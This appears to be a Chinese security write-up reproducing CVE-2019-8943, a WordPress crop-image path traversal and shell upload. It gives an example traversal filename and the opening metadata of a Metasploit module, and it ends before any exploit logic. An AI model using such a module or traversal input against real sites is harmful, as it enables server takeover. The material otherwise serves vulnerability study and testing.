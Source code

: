 （CVE-2019-8943）WordPress 5.0.0 - Crop-image Shell Upload (Metasploit)
=======================================================================

一、漏洞简介
------------

WordPress通过5.0.3允许在wp\_crop\_image（）中进行路径遍历。攻击者（具有裁剪图像的特权）可以通过包含两个图像扩展名和../序列的文件名，例如以.jpg？/../../结尾的文件名，将输出图像写入任意目录。
file.jpg子字符串。

二、漏洞影响
------------

三、复现过程
------------

保存内容为xxx.md 并放到msf运行的目录下

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote
      Rank = ExcellentRanking

      include Msf::Exploit::FileDropper
      include Msf::Exploit::Remote::HTTP::Wordpress

      def initialize(info = {})
        super(update_info(
          info,
          'Name'            => 'WordPress Crop-image Shell Upload',
          'Description'     => %q{
              This module exploits a path traversal and a local file inclusion
              vulnerability on WordPress versions 5.0.0 and <= 4.9.8.
              The crop-image function allows a user, with at least author privileges,
              to resize an image and perform a path traversal by changing the _wp_attached_file
              reference during the upload. The second part of the exploit will include
              this image in the current theme by changing the _wp_page_template attribute
              when creating a post.

              This exploit module only works for Unix-based systems currently.
          },
          'License'         => MSF_LICENSE,
          'Author'          =>
          [
            'RIPSTECH Technology',                               # Discovery
            'Wilfried Becard <wilfried.becard@synacktiv.com>'    # Metasploit module
          ],
        'References'      =>
          [
            [ 'CVE', '2019-8942' ],
            [ 'CVE', '2019-8943' ],
            [ 'URL', 'https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/']
          ],
          'DisclosureDate'  => 'Feb 19 2019',
          'Platform'        => 'php',
          'Arch'            => ARCH_PHP,
          'Targets'         => [['WordPress', {}]],
          'DefaultTarget'   => 0
        ))
